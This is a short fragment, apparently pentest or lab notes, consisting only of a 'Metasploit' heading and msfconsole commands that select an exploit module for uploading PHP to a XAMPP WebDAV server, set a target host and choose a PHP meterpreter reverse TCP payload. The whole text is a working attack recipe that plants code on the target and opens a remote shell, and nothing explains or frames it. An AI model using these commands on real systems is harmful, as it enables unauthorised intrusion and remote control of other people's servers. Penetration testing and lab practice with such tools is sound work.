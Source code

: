 # Metasploit

```
msf > use exploit/windows/http/xampp_webdav_upload_php

set rhost <IP>

set payload php/meterpreter/reverse_tcp
```